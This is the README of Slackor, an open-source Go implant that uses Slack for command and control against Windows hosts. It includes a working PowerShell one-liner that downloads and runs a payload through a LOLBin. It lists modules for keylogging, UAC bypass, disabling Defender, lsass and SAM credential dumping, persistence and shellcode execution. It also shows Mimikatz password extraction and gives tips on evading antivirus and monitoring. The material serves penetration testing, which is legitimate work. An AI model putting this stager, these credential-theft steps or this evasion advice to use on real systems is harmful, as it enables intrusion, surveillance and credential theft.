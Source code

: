 # Slackor \#
A Golang implant that uses Slack as a command and control channel.

This project was inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) and [Twittor](https://github.com/PaulSec/twittor). 


![Slackor Screenshot](https://www.n00py.io/wp-content/uploads/2018/10/screenshot.png)
![Wireshark Screenshot](https://www.n00py.io/wp-content/uploads/2018/09/slackor_wireshark-2-1024x349.png)
This tool is released as a proof of concept.  Be sure to read and understand the [Slack App Developer Policy](https://api.slack.com/developer-policy) before creating any Slack apps.  

Setup 
=====

**Note: The server is written in Python 3**

For this to work you need:
- A Slack Workspace
- [Register an app](https://api.slack.com/apps) with the following permissions:
    - **channels:read** 
    - **channels:history** 	
    - **channels:write** 	
    - **files:write:user** 
    - **files:read** 

- Create a bot

This repo contains five files:
- ```install.sh``` Installs dependancies
- ```setup.py``` The script to create the slack channels, database, and implant
- ```server.py``` The Slackor server, designed to be ran on Linux
- ```agent.go``` The generated implant
- ```requirements.txt``` Python dependencies (installed automatically)

To get started:

 - Run ```install.sh```
 - Run ```setup.py```
    - Supply the *OAuth Access Token* and *Bot User OAuth Access Token* from your app

After running the script successfully, a file ```agent.exe``` will be created.  It will be a 64bit Go binary packed with UPX.

After starting server.py on a Linux host, execute ```agent.exe``` on your target Windows host.

Run the "stager" module to generate a one-liner and other droppers.
 ```
 powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
 ```
 This will execute InvokeWebRequest(PS v.3+) to download the payload, execute it using a [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/), and then delete itself once killed.  This is a working example but the command can tweaked to use another download method or execution method.   

Usage 
=====
Type "help" or press [TAB] to see a list of available commands.  type "help [COMMAND]" to see a description of that command.

```(Slackor)```

- **Help** - Displays help menu
- **interact** - Interact with an agent
- **list** - List all registered agents
- **remove** - kill and remove an agent
- **revive** - Sends a signal to all agents to re-register with the server
- **stager** - Generates a one-liner to download an execute the implant
- **quit** - Quit the program
- **wipefiles** - Deletes all uploaded files out of Slack

Once an agent checks in, you can interact with it.
Use "interact [AGENT] to enter into an agent prompt.  Type "help" or press [TAB] to see a list of available commands.

```(Slackor:AGENT)```

- **back** - Return to the main menu
- **beacon** - change the amount of time between each check-in by an agent (default is 5 seconds)
- **bypassuac** - Attempts to spawn a high integrity agent
- **cleanup** - Removes persistence artifacts
- **clipboard** - Retreives the contents of the clipboard
- **defanger** - Attempts to de-fang Windows Defender
- **download** - Download a file from the agent to the Slackor server
- **duplicate** - Causes the agent to spawn another invocation of itself
- **getsystem** - Spawns an agent as NTAUTHORITY/SYSTEM
- **help** - Displays help menu
- **keyscan** - Starts a keylogger on the agent
- **kill** - Kill the agent 
- **minidump** - Dumps memory from lsass.exe and downloads it  
- **persist** - Creates persistence by implanting a binary in an ADS
- **samdump** - Attempts to dump the SAM file for offline hash extraction
- **screenshot** - Takes a screenshot of the desktop and retrieves it
- **shellcode** - Executes x64 raw shellcode
- **sleep** - Cause the agent to sleep once (enter time in seconds)
- **sysinfo** - Displays the current user, OS version, system architecture, and number of CPU cores
- **upload** - Upload a file to the agent from the Slackor server
- **wget** - Pull down arbitrary files over HTTP/HTTPS 


#### OPSEC Considerations

Command output and downloaded files are AES encrypted in addition to TLS transport encryption.
 
Modules will warn you before performing tasks that write to disk.  
When executing shell commands, take note that cmd.exe will be executed.  This may be monitored on the host.
Here are several OPSEC safe commands that will NOT execute cmd.exe:

- **cat** - prints file content
- **cd** - change directory
- **find** - search directory filenames 
- **getip** - Get external IP address (makes a DNS request)
- **hostname** - Displays the name of the host
- **ifconfig** - Displays interface information
- **ls** - list directory contents
- **mkdir** - Creates a directory
- **pwd** - prints the current working directory
- **rm** - removes a file
- **rmdir** - removes a directory
- **whoami / getuid** - prints the current user

Credits
=====
- https://github.com/EgeBalci -  Functions adapted from [HERCULES](https://github.com/EgeBalci/HERCULES) and [EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT)
- https://github.com/SaturnsVoid - Keylogger adapted from [GoBot2](https://github.com/SaturnsVoid/GoBot2)
- https://github.com/vyrus001 - x64 shellcode execution [shellGo](https://github.com/vyrus001/shellGo)
- Crypto functions adopted from https://www.golang123.com/topic/1686 
- Persistence idea from [Enigma0x3](https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/)
- Minidump adoped from [Merlin](https://github.com/Ne0nd0g/merlin), credit to [C-Sto](https://github.com/C-Sto)
- Screenshot code from [kbinani](https://github.com/kbinani/screenshot)
- Clipboard code from [atotto](https://github.com/atotto/clipboard)
- Stager generator from [hlldz](https://github.com/hlldz/SpookFlare)
- UAC bypass by [winscripting.blog](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
- Lulzbin find by [@vector_sec](https://twitter.com/vector_sec/status/896049052642533376]) 
- Countless threads on StackOverflow
- Thanks to [impacket](https://github.com/SecureAuthCorp/impacket) for dumping hashes from SAM/SYS/SECURITY reg hives. 
- LSASS dump credential extraction made possbile using [pypykatz](https://github.com/skelsec/pypykatz) by skelsec
- Bob Aman ([Sporkmonger](https://github.com/sporkmonger)) for various additions

Future goals 
=====
- DOSfuscation 
- Reflectively load DLL/PE - https://github.com/vyrus001/go-mimikatz
- Execute C# assemblies in memory - https://github.com/lesnuages/go-execute-assembly
- Source code obfuscation https://github.com/unixpickle/gobfuscate

FAQ:
=====
**Is this safe to use for red teams/pentesting?** 

Yes, given some conditions.  While the data is encrypted in transit, the agent contains the key for decryption.
Anyone who acquires a copy of the agent could reverse engineer it and extract the API keys and the AES secret key.
Anyone who compromises or otherwise gains access to the workspace would be able to retrieve all data within it. 
For this reason, it is not recommended to re-use infrastructure against multiple organizations.    

**What about Mimikatz?**

The implant does not have in-memory password dumping functionality.
If you need logonPasswords, you can try the following:
```
(Slackor: AGENT)minidump
```
THis will automically extract passwords with Pypykatz.  Alternatively, you can use Mimikatz on Windows.
```
>mimikatz.exe
mimikatz # sekurlsa::Minidump lsassdump.dmp
mimikatz # sekurlsa::logonPasswords
```
**Is it cross-platform?** 

Not yet. It has not been fully tested on a variety of systems.  The server was designed to run on Kali Linux and the agent on Windows 10.  

**How well does it scale?** 

Scalability is limited by the Slack API.  If you have multiple agents, consider increasing the beacon interval of beacons not in use.  

**Is it vulnerable to standard beacon analysis?** 

Currently each beacon has 20% jitter built in, and beacon times can be customized.  Agent check-in request and response packets will be about the same size each time as long as no new commands are recieved.

**Why did you do [x] when a better way to do it is [y]?**

I tried my best.  PRs are encouraged :)

**It gets caught by AV!**

The built-in HTA stager is created by [SpookFlare](https://github.com/hlldz/SpookFlare) which is based on [Demiguise](https://github.com/nccgroup/demiguise).  If you want your droppers to not get snagged you probably want to go custom.  The built in droppers are just there to get you started. 
